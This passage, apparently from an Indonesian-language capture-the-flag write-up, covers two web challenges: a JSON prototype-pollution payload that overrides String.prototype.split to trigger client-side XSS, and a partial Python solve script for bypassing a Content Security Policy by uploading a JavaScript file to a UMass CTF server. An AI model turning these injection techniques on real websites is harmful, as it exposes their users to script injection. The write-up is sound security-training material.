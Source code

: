 
disini saya saya akan mengoverwrite fungsi `split` dan merubahnya jadi fungsi yang akan kita gunakan untuk mempop-up alert. Berikut payload yang saya gunakan untuk mendapatkan XSS di client side.

```json 
    {
        "obj_String": {
            "obj_prototype":{
                "func_split": "alert(1)"
            }
        },
        "var_foo":"foo"
    }
```

![](https://i.imgur.com/URshEwU.png)

# umassdining2 - web

Membypass CSP default-src self dengan melakukan upload js file ke server.

solve script:

```python
import requests
from urllib.request import urljoin
from hashlib import md5

# URL = "http://localhost:6942"
URL = "http://umassdining2.web.ctf.umasscybersec.org:6942/"

class API:
    def __init__(self, username, password, url=URL):
        self.username = username
        self.password = password
        self.url = url
        self.session = requests.Session()

    def login(self):
        res = self.session.post(urljoin(self.url, "/login"), data={
            "user": self.username,
            "pass": self.password
        })
        return res.text
    def register(self):
        res = self.session.post(urljoin(self.url, "/register"), data={
            "user": self.username,
            "pass": self.password
        })
        return res.text

    def submit(self, payload, **kwargs):
        res = self.session.post(urljoin(self.url, "/submit"), files={
            'submission': payload
        }, **kwargs)
        return res.text
    def username_md5(self):
        return md5(self.username.encode()).hexdigest()
    
if __name__ == "__main__":
    api = API("sold", "sold")
    user_hash = api.username_md5()
    print("user hash:", user_hash)
    api.register()
    api.login()
```